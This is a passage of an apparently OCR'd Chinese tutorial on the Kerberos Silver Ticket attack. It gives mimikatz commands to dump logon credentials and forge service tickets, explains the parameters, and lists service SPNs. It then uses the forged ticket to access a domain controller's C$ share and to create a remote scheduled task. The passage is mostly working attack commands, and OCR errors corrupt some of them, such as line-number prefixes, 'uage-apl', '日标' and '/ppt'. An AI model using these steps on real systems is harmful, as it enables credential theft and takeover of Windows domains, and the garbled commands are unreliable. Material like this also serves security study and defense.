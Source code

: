    ```apl
   01020304mimikatz.exe
   
   privilege::debug
   sekurlsa:logonpasswords
   ```

2. 伪造票据。得到服务账户的HASH之后使用 mimikatz中的kerberos:golden功能，通过/service参数指定服务名，从而生成白银票据TGS ticket。uage-apl

   ```apl
   01020304050607080910kerberos:golden /user:伪造的用户名 /domain:域名 /sid:域SID值 /target:目标主机 /rc4:目标主机服务的HASH值(NTLM) /service:需要伪造的服务  /ptt
   
   #参数说明
   /domain:指定域名
   /sid:域sid号(最后一部分)
   /target:目标主机计算机名
   /rc4:目标主机服务的hash(NTLM)
   /service:需要伪造的服务
   /user:需要伪造的用户名
   /ppt:伪造了以后直接写入到内存中
   ```

   | 服务类型            | 白银票据对应的服务名 |
   | ------------------- | -------------------- |
   | WMI                 | HOST/RPCSS           |
   | PowerShell Remoting | HOST/HOST            |
   | WinRM               | HOST/HTTP            |
   | Scheduled Tasks     | HOST                 |
   | Windows File Share  | CIFS                 |

3. 利用伪造的白银票据 uage-apl

   ```apl
   01dir \\dc.laffrex.com\c$
   ```

#### 扩展利用

##### 计划任务

- 利用HOST服务来修改或创建计划任务，需要导入一张 **HOST Silver Ticket**

1. 创建票据 uage-apl

   ```apl
   01kerberos:golden /user:伪造的用户名 /domain:域名/sid:sID /target:日标主机 /rc4:日标主机的hash值/service:HOST /ptt
   ```

2. 创建计划任务 uage-apl

   ```apl
   01schtasks /create /S dc.laffrex.com /sc WEEKLY /tn "test" /tr "c:\windows\system32\calc.exe" 
   ```
